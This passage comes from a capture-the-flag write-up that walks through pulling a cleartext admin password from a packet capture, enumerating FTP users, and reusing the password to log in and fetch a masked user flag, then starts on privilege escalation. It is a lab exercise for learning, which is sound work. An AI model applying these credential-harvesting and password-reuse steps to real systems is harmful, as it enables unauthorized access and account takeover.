```
root@gr4n173:~$ strings ib01c01_incident.pcap | grep passwd
ajax=1&token=&controller=AdminLogin&submitLogin=1&passwd=pwnhats.htb&email=admin%40pwnhats.htb&redirect=http%3A%2F%2Fwww.pwnhats.htb%2Fadmin530o6uisg%2F%26token%3De44d0ae2213d01986912abc63712a05b
                                                <label class="control-label" for="passwd">
                                                <input name="passwd" type="password" id="passwd" class="form-control" value="" tabindex="2" placeholder="&#xf084 Password" />
ajax=1&token=&controller=AdminLogin&submitLogin=1&passwd=GetYouAH4t%21&email=pwnhats%40pwnhats.htb&redirect=http%3a//www.pwnhats.htb/admin530o6uisg/%26token%3de44d0ae2213d01986912abc63712a05b

```
From here I got passwd `GetYouAH4t%21` where `%21=!` so `GetYouAH4t!`. So basically we had to give a try any commands for any file. I  tried this passin every user which I got from ftp

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    5 1001     1004         4096 Feb 28 06:23 ib01c01
drwx------    3 1002     1004         4096 Dec 11  2018 ib01c02
drwx------    4 1003     1004         4096 Jan 30  2019 ib01c03
dr-xrwx---    3 1005     1000         4096 Dec 10  2018 ib01ftp
drwx------    3 1004     1000         4096 Dec 10  2018 ib01www
drwx------    2 1000     1000         4096 Feb 02  2019 support
```
Finally I m into `ib01c01` user on `ls` I got user.txt and downloaded to my local machine using `get`

```
ftp> get user.txt 
local: user.txt remote: user.txt
No control connection for command: Success
```

```  
root@gr4n173:~$ cat user.txt
6f8a8a************
```
This way I got the user.txt file without getting shell for user.

# Unprivelege-> Privilege Escalation
**ftp->ib01c01->.pcap**

```
root@gr4n173:~$ ftp www.supersechosting.htb
Connected to www.supersechosting.htb.
220 (vsFTPd 3.0.3)
Name (www.supersechosting.htb:bikram): ib01c01
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-------    1 1001     1004           32 Jan 30  2019 access.txt
-rw-r--r--    1 1001     1004     68175351 Dec 07  2018 prestashop_1.7.4.4.zip
-rw-r-----    1 0        1004           33 Dec 07  2018 user.txt
drwxr-xr-x   26 1001     1004         4096 Dec 10  2018 www
226 Directory send OK.
```
While doing enumeration it would be better if you analyze/use the files which was found before. So I analyzed .pcap file with wireshark and got file root.c .  
